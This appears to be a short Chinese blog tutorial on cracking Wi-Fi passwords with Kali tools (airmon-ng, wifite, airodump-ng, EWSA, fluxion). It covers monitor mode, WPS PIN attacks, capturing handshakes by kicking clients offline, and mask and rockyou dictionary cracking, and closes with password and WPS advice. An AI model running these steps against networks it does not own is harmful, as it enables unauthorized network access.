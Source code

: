 ```yaml
---
layout:     post
title:      "wifi"
subtitle:   "\"kali\""
date:       2023-07-13 12:08:00
author:     "Gumc"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - 开源
---
```

注：仅用来学习，勿用于其他用途。

## 准备工作

```
sudo su //进入root模式

airmon-ng check kill //杀掉wifi连接

iwconfig //查看网卡,如网卡是wlan0

airmon-ng start wlan0 //启动wlan
```

## 破解方式

### 方式一：wifite自动化工具

```
wifite   // 扫描wifi,并使用ctrl+c,输入选择的wifi序号，等待结果。如需要指定字典包则wifite --dict ./xx.txt
```

如PIN能破解则自动出密码，

如有握手包，则会放到hs/handshake_xxx中，可将握手包拿到EWSA中进行破解

### 方式二：aircrack-ng

```
airodump-ng wlan0  //扫描wifi,并获得wifi的MAC

//监听握手包

//新开terimimal 将客户端踢下线重连以获得握手包
```

得到的握手包拿到windows平台使用EWSA进行破解，首先使用

* 掩码：

  八位数字：?d?d?d?d?d?d?d?d
* 字典：
  解压缩 gzip -d /usr/share/wordlist/rockyou.txt.gz，然后将该字典拿来使用。
  也可以下载其他常用字典。

### 方式三：[fluxion](https://github.com/FluxionNetwork/fluxion)


## 反思WIFI安全

* WIFI密码不要设置纯数字，需要含数字+字母+特殊符号
* 关闭QSS（又称WPS），该功能会设置PIN码来连接WIFI，容易被破解。
